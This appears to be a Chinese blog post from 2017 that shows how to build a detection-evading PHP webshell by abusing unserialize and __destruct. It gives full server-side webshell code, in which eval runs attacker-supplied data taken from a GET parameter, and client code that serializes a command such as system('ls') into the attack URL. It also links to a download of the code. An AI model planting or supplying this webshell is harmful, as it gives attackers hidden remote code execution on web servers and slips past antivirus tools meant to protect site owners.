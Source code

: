 ```yaml
---
layout:     post
title:      unserialize免杀webshell
date:       2017-04-18
summary:    unserialize免杀webshell
categories: web
tags:
 - unserialize
 - php
 - webshell
---
```


### php的unserialize函数

```
php的unserialize反序列化函数可以将反序列化后的结果还原成数字,字符,数组,对象等类型,如果还原后的结果是对象且这个
对象对应的类有__wakeup,__destruct等函数,那么在unserialize函数执行后将执行对应的函数(__wakeup,__destruct等)

refer:
http://www.91ri.org/3960.html
https://www.owasp.org/index.php/PHP_Object_Injection
```

### 利用unserialize构造webshell

#### 服务端[webshell]

```
<?php

class foo{
    public $data="text";
    function __destruct()
    {
        eval($this->data);
    }

}

$file_name=$_GET['id'];
unserialize($file_name);
```

#### 客户端[相当于菜刀]

```
<?php

class foo{
    #public $data="phpinfo();";
    public $data="system('ls');";

}
$a=new foo;
$b=serialize($a);
echo "please visit uri:\n"."[your shell page url]"."?id=".$b;
```

#### 理解

```
服务端被访问后在内存中有一个foo类模板,当客户端伪造一个同名的叫做foo的类的对象的序列化后的结果给服务端反序列化时
,服务端在反序列化这个这个传入的反序列化值后将认为这是当前内存中对应的foo类模板的一个实例对象,于是去执行当前内存
的foo类模板的__wakeup,__destruct等函数,但是恰好这些函数会造成php代码执行[eval($this->data)],且$this->data可控.
```

本文代码对应下载链接如下<br>
<a href="https://github.com/3xp10it/xwebshell/tree/master/unserializePHP">download</a>

